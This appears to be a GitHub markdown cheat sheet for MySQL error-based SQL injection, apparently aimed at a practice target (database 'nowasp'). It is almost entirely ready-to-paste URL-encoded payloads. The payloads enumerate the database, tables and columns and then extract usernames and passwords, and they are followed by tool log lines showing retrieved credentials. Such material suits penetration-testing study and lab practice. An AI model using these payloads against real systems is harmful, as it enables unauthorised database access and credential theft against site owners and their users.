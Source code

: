 SQL Injection ERROR Based
=========================

CheatSheets
-----------
```
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
```

Detection
---------
```sql
# Modify "8095" and monitor for different responses.
'+AND+(SELECT+8095+FROM(SELECT+COUNT(*),CONCAT('qqvkq',(SELECT+(ELT(8095=8095,1))),'qbzxq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Current Database
--------------------
```sql
# Search response for 'ZZZZZZ" to get DB name eg "targetdb.ZZZZZZ does not exist"
'+AND+(SELECT+7199+FROM(SELECT+COUNT(*),CONCAT('qxxvq',(SELECT+(CASE+WHEN+(ISNULL(ZZZZZZ(NULL)))+THEN+1+ELSE+0+END)),'qkbjq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Tables
--------------------
```sql
# Search response for "zzz" to get the number of tables eg "Duplicate entry zzz12zzz"
'+AND+(SELECT+6583+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+COUNT(table_name)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Table Names
---------------
```sql
# Need to modify "table_schema+IN+('nowasp')" to reflect the database name identified above
# Search response for "zzz" to get table name eg "zzzaccountszzz"
'+AND+(SELECT+4981+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((table_name),1,54)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+

# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1" until the total number of tables have been reached. 
'+AND+(SELECT+4981+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((table_name),1,54)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')+LIMIT+1,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Columns in Table
------------------------------
```sql
# Search response for "zzz" to get the number of columns in the table eg "zzz7zzz"
'+AND+(SELECT+3173+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+COUNT(*)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='accounts'+AND+table_schema='nowasp'),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Columns Names in Table
---------------------------
```sql
# Need to modify the "table_name" and "table_schema" before injection
# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1" until the total number of columns has been reached. 
'+AND+(SELECT+1076+FROM(SELECT+COUNT(*),CONCAT('qxxvq',(SELECT+MID((column_name),1,54)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='accounts'+AND+table_schema='nowasp'+LIMIT+0,1),'qkbjq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Entries in Column
-------------------------------
```sql
# Search for "zzz' in response, eg "zzz42zzz" 
# need to modify "ORDER+BY+password" to reflect any column name identified 
# Need to modify "FROM+nowasp.accounts" as identified
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+


Get Data from Columns
---------------------
```sql
# Search for "zzz' in response, eg "zzzadminzzz"
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+

# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1"
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+


# pay close attention to "(SELECT+MID((username)" and "(SELECT+MID((password)" (these are the columns), also "LIMIT+6,1" and "LIMIT+7,1" must match the order.

'+AND+(SELECT+9130+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((username),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+6,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'PPan'
'+AND+(SELECT+6392+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+7,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'password'


'+AND+(SELECT+7348+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((username),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+7,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'jeremy'
'+AND+(SELECT+6924+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+8,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'password'
```
